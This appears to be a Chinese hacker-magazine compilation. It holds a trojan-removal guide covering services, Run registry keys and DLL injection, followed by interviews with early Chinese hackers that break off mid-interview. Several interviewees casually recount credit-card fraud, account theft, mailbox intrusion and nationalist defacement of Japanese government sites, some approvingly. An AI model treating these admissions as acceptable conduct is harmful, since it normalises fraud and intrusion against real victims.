木马一般都有自己的启动机制，一旦我们重新启动，木马就会自动运行，为了避免被发现，它会隐藏在任务栏中的图标。现在大部分木马都把自己安装成为服务，我们可以到“开始”→“程序”→“管理工具”→“服务”中找到跟可疑进程相对应的服务，以及一些来历不明的服务，然后终止服务的运行，把启动方式改为禁止。但是，这样做虽然可以暂时掐断木马跟外面的联系，发挥不了它的作用，但是我们看着一个死服务呆在那里心里总是有点疙瘩，怎么卸掉服务呢？微软 2000 工具包自带了几个可以卸载掉服务的工具，如 sc、instsrv。这些都是命令行下的工具，也是黑客们的最爱。但我脑子笨，天生不是做黑客的料，就用图形工具吧。Srvinstw 也是微软工具包里的东西，不过是图形界面，操作很简单，如图 2 所示。

我们选择 remove a service，点下一步，就可以轻松地卸掉 2000 中的任何一个服务，木马服务当然更是我们的目标。另外，进程木马很多时候是通过注册表启动的，通常这里值得我们注意：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`、`HKEY_CLASSES_ROOT\exefile\shell\open\command` 等等下面的键值是我们应该查看的。注册表可是复杂的数据库，里面还有很多的地方没有发掘，也是很多木马作者研究的地方，这就要大家各显神通了。通常我们可以在 Regedit 中使用查找的办法来查找相关进程在注册表中的所有位置。然后删除，我在手工修改网页病毒时通常使用的就是这种办法。

负责调用 SetWindowsHookEx 函数。然而如果每次使用钩子函数时都运行安装程序，那将是非常麻烦的，对于一个木马程序来说，很容易暴露自己。微软公司提供的 Detours 工具包（http://www.research.microsoft.com/sn/detours），可好满足这个东西。

说了一大通，还是说木马的隐藏性感越来越强。现在的关键是如何删除 DLL 形式的木马？或者彻底清除以 .exe 形式木马调用的 DLL 文件？下面我们来使用一个脱壳工具。Procdump 是个很强大的脱壳工具，是“杀人放火”的必备良药，我们来看看怎么利用它来找到每个进程调用的 DLL 文件，如图 3 所示。


看到吧，当我们运行它的时候，点击 conime.exe 时，下面窗口中就出现了它调用的所有 DLL 文件在内存中的起始位置、大小等。更好的是它把 DLL 文件在系统目录下的地方也弄出来了。呵呵，我们就可以不用到处找了，拿起你的“宝刀”，疯狂地砍杀 DLL。

停！小心，不要把所有调用的 DLL 都删除了，这些大部分都是 Windows 系统中自带的。至于如何分辨出哪些是外来客，又要发挥出你的火眼金睛了。我们可以预先备份一下 DLL 的文件列表，根据列表找到不正常的木马动态链接库。

## 三、木马对 DLL 文件的利用

由于木马一出名就遭到杀毒软件的疯狂追杀，木马技术也一步一步地在改进，很多高级木马现在不使用进程，而采用 Windows 系统的另一种“可执行文件”——DLL，或者向系统进程中插入木马程序，使用动态嵌入技术——动态嵌入技术指的是将自己的代码嵌入正在运行的进程中的技术。

理论上来说，在 Windows 中的每个进程都有自己的私有内存空间，别的进程是不允许对这个私有空间进行操作的，Windows 提供了这种保护机制。但是实际上，木马制造者们仍然可以利用种种方法进入并操作进程的私有内存。最经典的做法是，在 DLL 中安装一个钩子函数，这样系统会将我们把它注入到每一个受该钩子函数影响的进程之中。钩子函数的安装往往需要一个安装程序。

当说到这里的时候，我想我们已经把木马里里外外都杀干净了。关键是我们应该注意一点，木马要想有控制你电脑的功能，它就不可避免地会拷贝文件到你的电脑中，采取一系列我们看来反常的行动，譬如开放一些不常见端口。

魔高一尺，道高一丈，木马与反木马仍在继续着，推动着技术的发展，所以更多更好的方法还需要大家的认真发掘。

> 参考文献：揭开木马的神秘面纱（shotgun）


## 采访绿色兵团成员 Coldface


网络世界，风起云涌，黑客人物，几多沉浮。本栏目深入中国黑客圈，追踪采访黑客风云人物，让我们切入到黑客世界里不为人知的另一面，感受黑客的观点，体味黑客的生活。

几经周折，终于联系上了绿色兵团最早的成员之一——Coldface，并对他进行了采访。

Zero：Coldface，你好，能简单介绍一下自己吗？

Coldface：我 1994 年接触电脑，1995 年上网，当时上网还 16 元/小时。后来一个偶然的机会当地电信局请我帮助维护网络，然后就可以免费上网了；当时国内的网站还很少，上网也很慢，我用的 modem 才 2400bps 的，不过很满足，学了不少东西；97 年参加了绿色兵团，并是开国大佬，在 goodwell 他们的帮助下，更是得益非浅，不过就是荒废了学业和我的东西。好不容易爬上大学，上了两年学不下去，就进入社会工作了；运气还不错，做过记者、讲师、网络工程师、网页设计师等；现在在北京一家网络公司做 ADSL 接入技术支持。

Zero：你最初是在什么时候开始接触黑客这块领域的，并又为什么喜欢上了这个另类的爱好？

Coldface：接触黑客领域是 1996 年，那时国内网络知识贫乏，我看过一些介绍后对黑客十分崇拜。因为当时的黑客可不像现在的所谓“黑客”这么杂，他们都是真正的技术高手，所以就自己到国外网站找资料进行研究学习。幸亏我英语还不错，一些文章还看得懂，当时台湾的 coolfire 很出名，我的网名 coldface 也是跟着他改的。

Zero：作为一位资深黑客，平时都有哪些什么样的个人爱好，上网一般都做些什么？

Coldface：个人爱好就不是很多了，整天捧着电脑过日子；以前还打打篮球，现在周围没篮球场，干脆就没得玩了。上网主要就是学点新技术，玩玩游戏；我以前玩《命令与征服：红色警戒》，世界排名第七吧。现在主要玩《命令与征服：叛逆者》等，已经打到世界排名 200 多位了。

Zero：随着互联网的发展，现在人们对黑客的印象已经不再是“Hacker”最初所定义那样，而是具有攻击和侵犯性质的网络边缘群落，请问你对这个问题怎么看待？你是怎么定义黑客的？对于中国的黑客群落你是怎么区分的呢？

Coldface：对于现在人们对黑客的定义，我感到很悲伤。96—97 年的时候黑客还是人人尊敬和崇拜的，但是这种现象只在中国，因为国人的盲从性是世界出名的。也许大家的想法和我当初是一样的，可是没有人引导，不得其门而入，就只能通过所谓“黑客软件”到处破坏来炫耀自己了。中国的黑客群落可以分为三类：一类是真正的黑客，这部分人都是技术高手，也未必很出名；第二类是软件黑客，这类人软件公司都比较痛恨，他们主要是破解共享或收费软件，然后发出来给大家使用，好坏无所谓；第三类就是伪黑客，他们使用所谓“黑客软件”或最原始的技术，甚至调动几百上千台机器去把别人 ping 死，实在很愚昧无知。

Zero：做一名黑客，需要具备些什么样的知识？

Coldface：因为目前我们国内的知识都是国外来的，很多文章都是英文的，所以首先英语得过关，也不用太好，看得懂就行。其次是有一定的技术基础，比如要学 Linux 方面的安全知识，首先得自己会用 Linux；懂常用命令，否则看了也白看。

Zero：对于中国黑客浮出水面做了网络安全工程师，你认为这是很自然的结果吗？除了黑客、网络安全工程师，黑客最终的方向还会是什么样的呢？

Coldface：不客气地说中国黑客做网络安全工程师是旁门之道，只能算是一种求生的方法，而不能说是自然的结果；因为毕竟人总要吃饭的，但是当他去做网络安全工程师后，他的知识公平性就会发生偏移，因为他总得帮他自己公司说好话。黑客并没有固定的发展方向，因为网络的普及，冰箱、彩电，还有电饭煲现在都要上网了，说不定以后出现一个厨房黑客也不一定……黑客的定义是有创新精神的人，按这句话解释，其实各行各业都有黑客，他们打破成规旧例，创造新奇迹。

Zero：随着网络的安全性能越来越完善，黑客面临的挑战也更大了；在这种情况下，技术更高的黑客自然会脱颖而出。你认为通过怎么样的学习，才能使自己的技术和经验值有所提高呢？

Coldface：我认为一个人的学习过程首先是掌握基础知识，不要盲目地一开始就要做什么大事情、学什么顶尖技术。想想看，一个连 TCP/IP 协议原理都不懂的人，怎么去对 IP 数据包进行分析呢？很多人问我怎么能快速成为高手。我的回答是你想快其实就犯了大忌，应该定下心认真读书学习；没有基础，你甚至连稍微有一点技术性的文章都看不懂。至于所谓完美，那在网络上只是一个相对的名词，只是有些人觉得完善而已。时间越长，就有越来越多的问题被发现，就如同 Windows、Linux 等，不也是几天就出一个重要补丁么？真正的黑客，不是为了向他人挑战，只是向自己挑战。

Zero：你一般通过什么方式获知对方系统的漏洞，对于个人上网用户，你有什么样的安全忠告呢？

Coldface：1999 年以前，中国拥有电脑的人不多，知识面比较窄，大家对系统漏洞的了解都是通过查看国外黑客网站得到的，可以说那时中国的黑客都是 script kid。但是现在，很多人都已经有了稳固的基础，现在已经能够自行研究发现漏洞了。对于个人用户，增加安全意识比装一大把防火墙要重要得多，简单的密码、盲目地打开不明邮件……这些都会给居心不良的人以可乘之机。

Zero：你觉得中国现在网络水平提高了吗？相对于去年中美黑客大战后，安全系数提高了吗？

# 黑客人物面对面

Coldface：也不能说完全没有提高，但是提高得非常有限，也就是 100 级的楼梯，从第 20 级到了第 30 级。

Zero：听说黑客都有自己的 Hacker 原则，我们中国的黑客也有自己的黑客原则吗？请问你对自己有些什么样的黑客原则呢？

Coldface：黑客的原则是不以他人为目标，而是要超越自己；中国只有很少部分人遵守这个原则，这才是真正的黑客，其他人说白了，不好听地说，只是在胡闹而已。

Zero：如果你一旦发现对方系统的漏洞，你会以什么样的方式通知对方网管呢？

Coldface：如果我有时间的话，我会悄悄地帮他补好。没时间的话就得看对方是什么性质，如果是商业公司，我会发 e-mail 通知网管，至于是否理睬是他的事情；如果是政府机构的话，我一般不会通知。因为那里的网站只有立志，没有技术，告诉了他们也不会补，他们一般看到 e-mail 首先想的是我有没有通过这个漏洞拿走什么东西。

Zero：在黑客这个圈子里，你们相互进行交流吗？都有哪些什么样的活动？黑客之间会互相攻击吗？

Coldface：有机会的时候，一些朋友会搞个聚会。但是那个时候大家就只顾吃喝玩乐，吹吹牛皮；我参加过一次，因为反正没有电脑，也无法演示，所以觉得没有意义就再也没参加。只有在网上聚会的时候，大家才会讨论真正的技术性问题。2000 年以前的时候，绿色兵团也开一些年会，后来因为绿盟公司的事情闹得大家都不开心，就没再搞了。真正的黑客是不会没事搞些什么互相攻击的，因为他们的时间固然不是太紧张，但也不至于做这些无聊的事情。

Zero：黑客给人的感觉是另类、反叛、地下等特征，你认为你是这样的吗？还是公众对于黑客有所误解，我们应当如何正确地看待黑客这一现象？

Coldface：这些感觉只是在网上而已，而且从一开始舆论对黑客的解释就是这样。我不觉得我是这样的，走上街同样也是一个普通人，和很多人一样嬉笑怒骂的，不像一个喜欢向所谓“真理”挑战的人；有一些东西是要去发现的，但一些人无法接受新事物。1543 年以前，谁会怀疑“地心说”是悖论？同样，1543 年至今我们把哥白尼的“日心说”作为颠扑不破的真理，不幸的是，哥白尼的“日心论”也不是真理。我觉得不必把黑客故意渲染，也不必崇拜或畏惧，只是有个别人做出一些出格的事，但不是所有人都这样做了。所以只要以平常心对待就可以了。

Zero：在去年的中美黑客大战中，你参与了吗？你对这样的事件怎么看？

Coldface：我没有参与。就我所知，我所认识的很多高手也都没有参与。因为我们觉得没有意义，提高大家的技术层次比去黑几个网站重要得多；因为毕竟我们中国黑客的水平和国外还是差得多。很多人曾经说我没有爱国心，我感到可悲；现在不是人海战术的时候，号召所有上网的人去 ping 死一台服务器，这种事情是这个时代的事情么？有点像玩地球，让几十个农民拿木棒去打一个机枪兵。

Zero：你从事什么职业？你的职业和黑客有冲突吗？

Coldface：我目前在一家公司做网络接入技术支持，职业和黑客无冲突。

Zero：以前浏览过你的网站，叫“网络力量”，该网站声明不做商业广告，请问该网站以后的发展方向是什么，没有资金注入，靠什么方式来维持网站的运作呢？

Coldface：我的网站只是提供给网络安全爱好者一个交流的地方，没什么开支，有很多朋友义务帮忙，公司自己有服务器可以使用，所以运作是没问题的。

Zero：很多网友对于以前绿色兵团的解散感到可惜，你作为曾经是绿色兵团的一员，能谈谈你在绿色兵团的经历吗？兵团的成员今安在？

Coldface：很多朋友这样认为，绿色兵团并没有解散，其实只是绿色兵团搞的两个公司一个变质、一个倒闭而已。对于非营利性组织的绿色兵团没有任何影响，绿色兵团其实还是一个松散性的技术交流组织。在绿色兵团里大家可以交流各自的心得，共同促进；能成为绿色兵团的成员是我最值得骄傲的经历，我要感谢我的师傅 goodwill。兵团的成员除了创始人之一的 rocky 两年前意外去世，其他人现在都很好。

Zero：据说你的破解技术很不错，是这样的吗？

Coldface：学得很杂，最早是研究国外信用卡系统的，应该说是专业研究这个的第一人，然后国外信用卡系统升级，就研究的是 CBI 即时支付系统，有点成就；后来主要就是搞操作系统，WinNT/Win2000/Linux 等。

Zero：最初你是怎么想到去研究国外的信用卡系统？

Coldface：因为别的东西，比如 Unix 系统等，自己没有条件入手学习，反正要上大学，就挑了个简单的开始。

Zero：能举一个你最有成就感的破解经历吗？

Coldface：这些可记不得了，反正有一年很疯狂购物，买了很多东西，可惜只寄了几本书过来，别的都不知道哪里去了，还买了个亚洲交友中心的终身黄金会员。

Zero：关于破解有些什么样的心得体会？

Coldface：破解是一项很麻烦的事情，有时你得盯一个晚上，怕漏掉一组数据，所以是个纯技术的事情，没有运气。

Zero：盯一个晚上，这应该是黑客常有的生活方式吧，你觉得有一天你会厌倦这种生活方式吗？

Coldface：当你完全被知识诱惑住时，是感觉不到时间的，至于以后是否会厌倦谁也说不准。

Zero：我想一些网友很想和你联系，能在我们杂志上公开你的联系方式吗？

Coldface：Coldface 是个只在网络上存在的人，离开了网络，我就不是 coldface 了；如果大家想联系我的话，可以通过我的网站 www.isforce.org 或 QQ：87272 找我。

Zero：非常感谢你接受我们的采访！

通过采访，我感觉到 Coldface 的许多观点对于初学者具有指导意义，有兴趣的读者可以通过他提供的 QQ 号和网址直接和他联系。

- 文章中的内容仅代表个人观点，不代表本刊立场。

## 女黑客 GuGu 采访记

本期特别采访女黑客 GuGu，GuGu 的工作是网络安全管理，她每天都特别忙，几次碰到她，都在测试系统，没答上几句话，就匆匆离开了。就在这样一种断断续续的对话过程中，我们完成了采访。

Zero：你好，我想很多读者对你是“女黑客”这样一种身份肯定很感兴趣。首先能给我们读者介绍一下自己吗？

GG：其实我不知道我自己算不算是一名黑客，有些朋友说是，我却觉得彼此的计算机技术水平太浅，我不觉得；但以我的性格或许所做过的一些事，我是吧！有时候，是与不是，都很难确定的。

Zero：听说你在一个网站担任安全板块的版主，做得怎么样？

GG：我现在业余在 CSDN 上的安全技术版做版主，但是，因为从今年开始要准备考研，工作上的事情也比较多，所以，都没有太多的时间做这块版了。以前或许有更多的时间来做这块版，或者可以做得更好吧。

Zero：主要职业是什么？你就职公司的网站被人开过后门或者黑过吗？

GG：我是在一家证券公司的安全整改小组工作，我们公司的网站，在我去之前，曾经被黑过，但是我去了以后，就没有被黑过了。

Zero：你什么时候开始接触黑客相关的？

GG：大概是 98 年底的时候开始涉入黑客这个领域的。我在 97 年的时候，第一次接触网络，那时的网速特别慢，而且国内网站也不是太多；98 年的时候，我任职的公司是一家台湾公司，因为要常常上网，对网依赖也特别高涨，大概一天二十几个小时，而且，还是拨号上网。虽然是公司，但网费也不能太高吧，因此就想办法盗用别人的帐号，在一些朋友（有些是黑客）的帮助下，自己那会儿也特别认真，成功盗用了别的公司的帐号。

Zero：是谁领你进入了这个领域，或者是通过自学？

GG：那时候上网的，大部分都是计算机领域的朋友，大家几乎都是互相学习，互相讨论，可能那时候学习的兴趣比较浓厚，也比较多吧。

我认识比较早的，有小狼，还有一些别的，uyyy，因为他们工作的性质，所接触的技术比较前沿一些，所以我从他们那里学到了很多的东西，另外还有千年老妖、小蜜蜂、师爷、GLACER 等等吧。

Zero：当进入这个领域后，第一件让自己很有成就感的黑客事件是什么？

GG：其实我也不知道是不是成就感，就在一个晚上，破了自己感兴趣的一位朋友的信箱帐号，以及一些别的东西，知道了一些秘密，也很悲哀，所以，庆幸再也不做这样的事了。不知道一些东西，你或许会快乐一些吧！

还有就是和朋友一起，互相找学习漏洞，然后告诉对方，或者探讨一下技术的东西吧。

Zero：作为一个女黑客，和男黑客相比有什么优势或者有什么特点？

GG：我觉得在技术上男女的区别不大吧。因为，本身我的性格比较羸弱，男子一些吧！黑客需要执着的精神，男黑客和女黑客疯狂的时候，我想都差不多。我想在大家互相学习的过程中，男黑客和女黑客沟通起来应该更容易一些。

Zero：除了黑客以外，平时还有些什么样的个人爱好？

GG：
- 爬楼、爬山（喜欢征服的感觉）
- 旅游（比较能见多识广吧）
- 还有一些别的有智力性的活动，可能我喜欢在玩乐的时候，去体验另一种思考方式吧。

Zero：看来你很喜欢动脑思考问题。现在很多年轻人对黑客很感兴趣，却苦于无法入门，无人引导，你觉得对于一个还在黑客门外徘徊的人，需要些什么样的基础呢？或者是需要什么样的思维方式呢？

GG：我不知道这些年轻人是怎么样定位一个黑客的，因为在上网的时候，许多朋友也问过我这个问题。但是我觉得他们对黑客的定义是一个误解。如果对于还在黑客门外徘徊的人，问的是计算机基础的话，我想首先他应该掌握 TCP/IP 协议，其次他应该精通一门语言（如 C）；第三，他得掌握英文；因为大多数的第一手资料，或者丰富的资料还是从国外的网站得到的吧。

Zero：你最擅长的编程语言是什么？

GG：这个问题挺难回答的。因为工作或者别的什么需求，常常需要换语言，所以比较悲哀，我觉得我没有最擅长的编程语言。

Zero：你有你最佩服的黑客吗？为什么？

GG：说实话，我没有最佩服的黑客。也许，许多真正的黑客是不为人知的吧！

Zero：在很多人心目中，黑客是神秘的，黑客是寂寞的，那你是什么样的一种性格呢？

GG：在以前，我的性格是活泼的，外向的，而现在，我甚至发现我越来越不善于与人交往了，我说话越来越直接了；我更喜欢简单地说话做人，而且，我也越来越愿意享受孤独和这份寂寞了，与别人的交往也更自然了。我常常分析自己的这种行为，或许的确是一种与计算机或者与网络打交道的必然结果，对我的影响是这样的。

Zero：你喜欢玩游戏吗？喜欢些什么游戏？

GG：我不喜欢玩游戏，一个朋友和我共玩了一次后，就……

Zero：有人说一个高级的网管其实也就是一个黑客了，是这样的吗？

GG：我认为不是的，那只是具备了形而不具备神吧！黑客绝不应该只是具备高超的计算机技术水平，而且还要具有黑客的思想，黑客的精神，那样才能称得上一名真正的黑客。现在所谓的黑客太多了，这是不正常的，也是由于大家不了解黑客而造成的一些误解吧。

Zero：你被黑过吗？你会怎么回应黑你的人呢？

GG：有被黑过，那是一个朋友做的，他在我的计算机上留了一些目录，“XX 到此一游”，呵呵……至于我的回应，就是，也找到了他的计算机漏洞，然后从他的上面下载了一篇文档，再寄给他吧。

Zero：结交过一些国外的黑客吗？他们与中国的黑客有什么不同？

GG：有过，如果是真正的黑客，大部分都相同吧。感觉他们更自我一些，他们确实了解技术，水平更高一些。

Zero：你觉得我国的网络安全让人担忧吗？对网管有什么样的好建议吗？

GG：确实比较让人担忧吧。我觉得他们可以勤上安全网站，全同步，多打 patch，不要忽视小问题，而且，最重要的，要知道 log 的重要性，其实很多时候我们可以从它发现许多东西的。

Zero：黑客代表了神秘、前卫、另类，和摇滚乐具有大致相同的特点，你喜欢摇滚吗？

GG：喜欢。喜欢那些表达心声的歌词，喜欢那些振奋的音乐。让我有一种冲动的感觉。

Zero：我们读者能通过电子邮件联系你吗？

GG：ostevery@21cn.com

# 孤独剑客采访记

醉里挑灯看剑，梦里吹角连营。  
仗剑独闯天涯，试问谁与争锋？

这是“孤独剑客”网站上的自我介绍，一副疾走江湖的独孤侠客形象浮现在脑海中。

本期特别采访曾经联合爱国安全仁人志士，在 2000 年把中国国旗插上日本无数政府网站的侠义黑客——孤独剑客！

Zero：孤独剑客，你好，能简单介绍一下自己吗？

孤独剑客：好的！我出生于地处黄河古道的中原大地，家乡因发现“中华第一龙”而拥有“中华龙乡”之美称。大学学的是机械设计专业，后来对计算机一见钟情就走上自学之路，并逐渐爱上了具有挑战性的网络安全技术。大学期间曾担任校计算机协会会长和校学生会主席，毕业后在国家研究所从事单片机和 PLC 开发，后来到深圳、广州和上海等信息安全公司负责技术工作，现今，在世界著名的网络安全公司中国公司做高级安全顾问。

Zero：您是什么时候开始进入黑客这个领域的？

孤独剑客：确切地说，应该是 95 年开始接触信息安全的，但那时主要是研究计算机病毒技术；几个月后我的作品就进入了无数台电脑，现在想来对当时自己轻狂无知的行为感到愧疚。

Zero：在黑客这个领域里，你是一个孤独的行者吗？喜欢和其他黑客朋友交流吗？

孤独剑客：孤独不等于封闭，我经常与朋友们进行技术交流，但我更喜欢自己思考和解决问题。

Zero：你对你既是安全人员又是黑客这样的双重身份，感到矛盾吗？在什么状况下你是一名黑客？在什么状况下你又是一名安全专家呢？你更喜欢哪一种身份呢？

孤独剑客：我认为这并不矛盾，捍卫祖国尊严是每个中国人义不容辞的责任，任何有损于祖国利益的行为我都会尽力制止并打击。当然，每当我听说国内网络系统遭受黑客攻击的时候，作为一名安全人员，我就感到很痛心，下决心要用自己的技术和经验来保护国内脆弱的网络。至于说到更喜欢哪一种身份，在黑客概念被扭曲的今天，我自然更喜欢后者。

Zero：作为黑客，你曾经参加过几次著名的黑客事件，也是几次事件内幕的熟知者。最让你觉得有成就感的是哪一件事呢？你能再给我们简单回顾一下这些事件吗？

孤独剑客：发生在 2000 年初的中日网络大战给我留下的印象最为深刻，当时我和 badboy 等仁人志士组织了“中国扬龙联盟”民间爱国组织，联合国内安全技术高手，在广大国内网民一起通过网络真正意义上打击了日本的嚣张气焰，在众多日本政府网站上飘扬的五星红旗和奏鸣的《义勇军进行曲》就是明证，那次网络战中年轻的中国网民们所表现的高昂的民族意识和爱国热忱是前所未有的。

Zero：中国的网络安全经过几次黑客事件过后，虽然有些进步，但依然让人担忧，你能对中国网络的安全现状谈谈你的看法吗？目前中国安全现在面临的挑战是什么？

孤独剑客：对于国内的网络安全现状我认为喜忧参半。喜的是国家开始重视网络安全，设立安全预算，培育安全人才；忧的是很多青少年盲目崇拜和歪曲黑客，停留在工具的使用上，整天忙于偷窃密码、炸弹攻击和黑网站，而不知道去系统地学习，更不知道这是犯罪。当前从我国的安全技术发展来看，我认为我国网络安全面临的最大的挑战是不拥有对安全技术的控制权，不仅是现在，在未来很长一段时间内将会一直如此。

Zero：你从事安全工作有几年了吧，你觉得对于一个安全技术人员来说，什么是最重要的？怎样才能成为一个合格而优秀的安全人员呢？中国的安全人才缺口有多大？

孤独剑客：职业道德！这是由其特殊性决定的，可以毫不夸张地说，一个丧失职业道德的安全技术人员所能给社会带来的危害丝毫不亚于一枚原子弹的爆发。就我的经验而言，我认为有较宽的知识面、雄厚的技术实力，有社会责任感和严肃的职业道德，才能算是一名好的安全人员。从我国目前 3000 多万网民人数来看，占 1% 的安全技术人员绝对不算为过，也应该有 30 万，遗憾的是目前国内尚不足万人。

Zero：黑客知识不是系统的，也不是专业的，它是很有特色的一种技术，你如何评价黑客知识？

孤独剑客：我思想中的黑客知识是对系统和网络技术的高度洗练、对系统和网络问题的深度探究、对系统和网络漏洞的根本解决。很难想象一个不会编程，不懂系统和网络原理的人能够成为一名安全技术人员，而要掌握这些更需要不少基础性的东西，比如：英语、数学和物理等，遗憾的是，不少人对此很不重视，尤其是英语。

Zero：你最擅长的黑客技术是什么？在什么情况下你会拔剑出鞘呢？

孤独剑客：我喜欢用联系的观点去考虑问题，在世界上最著名的 ISS 扫描器里面有一种技术叫 SmartScan，我想是一种很好的体现。在我的印象中思维要高于技术。如果非要问什么时候会拔剑出鞘的话，我的回答是当祖国需要的时候，我都会挺身而出。

Zero：现在很多青少年对于黑客很崇拜，对黑客技术很热衷，作为一个资深的黑客，如何引导青少年正确看待“黑客”？

孤独剑客：我想青少年朋友应该首先要把基础东西学扎实，精通两种以上编程语言，尤其是 ASM 和 C，熟练掌握系统和网络知识，深入研究安全技术和安全产品，运用自己的技术来保护我们的网络系统，实现自己的人生价值，做一个受人尊敬的“黑客”，而不是一名被唾骂的罪犯。

Zero：你如何定义“黑客”这个术语呢？

孤独剑客：尽管在国内黑客一词已经几乎被解释成了破坏者，可按照我的理解，我认为黑客应该是有较强的程序编制能力、掌握全面的系统和网络知识、能够运用自己的技能和经验不断地发现和解决网络系统中存在的问题，为此而受到世人的尊重和热爱，进而推动网络不断向前发展的技术人员。

Zero：黑客文化和安全文化是近年才开始提出的一种新的网络文化，请问我们该如何理解黑客文化和安全文化，它们包含了哪些元素？

孤独剑客：对文化我研究不多，但我认为黑客文化应该包含“共享、探索、沟通、道德”，安全文化应包含“策略、预警、管理、监控”。

Zero：喜欢寻找系统的漏洞吗？都发现过哪些漏洞？最精通的操作系统是什么？

孤独剑客：任何安全技术人员都会因发现漏洞而自豪，我也不例外，但安全技术也是有分工的，有安全研究人员和安全咨询人员等，前者侧重于对系统和网络安全问题的探索，后者则侧重于提供最佳的安全解决方案；实际上我属于后者，所以对于 NT 和 Unix 系统的安全管理与维护是我比较熟悉的领域。

Zero：当你发现某个网站有安全漏洞时，你会怎么处理呢？

孤独剑客：一般来说，我会设法找到网管的 Email 信箱，然后发一封说明其系统存在安全漏洞的匿名信件，当然同时会附上我建议的解决方法。

Zero：黑客技术是不是更多只能用到对于系统的检测上面，但不全面？

孤独剑客：我想在系统加固和监控上，黑客技术也大有用武之地；因为一个善于实施攻击的人更懂得自己该如何防守。

Zero：黑客技术和系统的网络安全管理技术是不是互补的？

孤独剑客：事物总是在矛盾中进步发展的，所以说这是肯定的。

Zero：很多次黑客事件都是在祖国的尊严受到挑战的时候发生的，同时也诞生了“红客”这一称谓，中国红客的爱国主义情结也是中国独有的黑客特色，你对中国红客怎么看？

孤独剑客：仔细来追究的话，会发现“红客”一词源于 2000 年初的中日网络大战，当时我们中国右翼势力联想到了中国的红军，认为红色是正义的体现，而我们做的是网络抗日，所以我们修改了代表网络技术高超的“黑客”一词，称在那次大战中的中国网络战士为“红客”，一方面体现了对安全技术的追求，另一方面表现了我们代表的是正义。

Zero：据报道，中国的黑客活动频繁度在世界上位居前列，你觉得这个现象正常吗？现在的中国黑客和国外黑客技术差距，你如何评价？

孤独剑客：我感觉我国媒体的炒作能力在不断地得到提升，就像我国足球刚进世界杯就幻想已经是十六强了一样。事实上，我认为我国黑客与外国黑客的差距更像足球上我国和巴西。

Zero：中国黑客对于中国网络安全的发展起了较大的推动作用；你如何评价它？

孤独剑客：我认为我国黑客最突出的贡献是使得国人增强了网络安全意识，无论是政府、企业还是教育部门的动作都能说明这一点，但我们要走的路却还很漫长，就好像我国足球一样，尽管离大力神杯还很遥远，毕竟我们已经开始接触世界杯了。

Zero：前段时间，广东省长对黑客人才发出了邀请，以求共建网络安全。可以看出，黑客作为一种特殊的人才，开始受到政府部门的重视，你如何评价这件事？

孤独剑客：我认为这是一件非常好的事情，这表明安全技术人才的价值得到了政府的认可，至于能否成为现实，让我们拭目以待。

Zero：你网站上公布了部分你开发的黑客工具，比如 IPHacker、WinShell、PassDump 等，想来很多网友都用过这些软件。我想问的是你最精通的语言是什么？对于一个黑客编程初学者来说，该如何

# 黑客人物面对面

起步呢？

孤独剑客：应该说我最擅长的就是 ASM 和 C 语言了，它们优异的特性无论是在单片机、DOS、Windows 还是 Unix 平台上始终都能发挥得淋漓尽致。我个人认为这两种语言非常适合作系统和网络级的低层开发，并且具有多平台支持的优点，建议初学者好好掌握。

Zero：“孤独剑客”这个网站是你自己在维护呢，还是相关公司在托管，有发现过被攻击的情况吗？如果有，如何回应这些攻击？

孤独剑客：服务器是托管的，我是通过远程控制软件进行维护的。事实上，我的服务器系统经受了无数次的攻击，当然其中也包含我特意邀请一些朋友进行的友情测试，这一年多以来的实践表明，服务器的安全是有保证的，除网络升级等因素外，它始终保持稳定运行中。我也曾根据监控系统的记录反追过一些攻击者，发现大多是漫游的网络蠕虫和图省事而进行尝试攻击的安全爱好者。

Zero：目前出现了一些所谓的商业黑客，通过对网站的入侵，然后进行带有商业目的的敲诈，这些行为都背离了黑客精神的初衷，你觉得一个黑客应该遵循一个什么样的道德标准呢？

孤独剑客：事实上，黑客也仅仅是一个称号，是在特定阶段赋予的，就好比有些优秀警察有的最后却变成了罪犯一样，我们难道还叫他优秀警察吗？不容否认，黑客对网络是那么的了解，以致往往可在网络中自由驰骋，意识薄弱的人难免会无法抵挡利益的诱惑而铤而走险，我认为作为一名技术高超的安全人员，要严格遵守职业道德，利用自己的技术和能力，为社会做出贡献，完全可以实现自己价值，而无须留天下之大不韪。

Zero：除了网络有些什么样的业余爱好？喜欢看足球吗？对中国队在世界杯的表现怎么看？

孤独剑客：爬山、健身、听音乐等都是我喜欢的，也相当爱看足球，但还算不上球迷，对于我国队员在世界杯上的表现，总体来说我是比较满意的，队员们表现出了顽强的拼搏精神，从比赛结果我们也认识到了和世界著名球队存在的差距，希望球员们能够面向未来，苦练本领，精诚团结，将来用好成绩来回报关心和爱护他们的全国人民和广大球迷朋友。

Zero：每天都与看似枯燥的数据打交道，你觉得有一天你会厌倦吗，如果大胆猜想一下，离开安全这个行业，你会去从事什么工作呢？

孤独剑客：我想会的！假如真要离开安全行业的话，我更乐于从事像 Discovery 节目中的工作人员那样和大自然亲密接触，那将是多么的令人向往，但这可能只是一个美丽的梦想。

Zero：我们的读者如何联系你呢？

孤独剑客：既可以访问我的个人网站 http://www.janker.org，也可以发 Email 到 janker@371.net，有 QQ 的朋友也可以在线和我交流，我的号码是 5385757。

### Analysist 采访

Zero：Analysist，你好，能介绍一下自己吗？

Analysist：大家好，我是 Analysist，红色警戒网站的站长，目前在 NSFOCUS 学习。

Zero：Analysist 这个名字有什么来由？

Analysist：其实也没有什么特别的意思，因为我喜欢分析，所以就起了这样一个名字，中文译为分析家。

Zero：最初你是如何进入黑客这个领域的？能简单介绍一下你是如何成长为一个安全技术人员或者是一名黑客的吗？

Analysist：我是学计算机的，但是 98 年才接触网络，不过自从触网之后，我几乎每天有十几个小时泡在网上，除了上 BBS 之外，基本就是到处找黑客站点学习了。至于最开始怎么接触到黑客，真的不记得了，大概是缘分吧。学习 + 实践 + 总结 = 提高，我的成长基本离不开这几个环节吧。

Zero：曾经听你说过，利用别人发现的漏洞来进行渗透实验是没有意义的，发现新漏洞是你的爱好，你一般是如何发现漏洞？

Analysist：对于我来说，除了为了某种目的单纯地入侵一个站点的情况之外，一般都是自己发现漏洞，然后利用这些漏洞进一步对目标系统进行渗透。要发现漏洞，首先你得对目标系统以及其工作原理非常熟悉，这样才能根据自己平时的经验来发现漏洞，当然，有时候你还需要一点点的运气。

Zero：你第一次发现的安全漏洞是什么？能描述一下当时的情况吗？

